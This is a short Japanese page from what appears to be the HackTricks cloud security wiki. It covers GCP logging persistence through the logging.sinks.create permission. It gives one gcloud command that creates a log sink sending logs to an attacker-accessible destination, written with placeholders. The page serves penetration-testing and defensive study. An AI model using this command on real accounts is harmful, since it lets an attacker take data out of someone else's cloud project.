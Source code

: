 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## ロギング

ロギングに関する詳細情報は以下を参照してください：

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

攻撃者がアクセス可能な宛先にログを外部に送信するためのシンクを作成します：
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
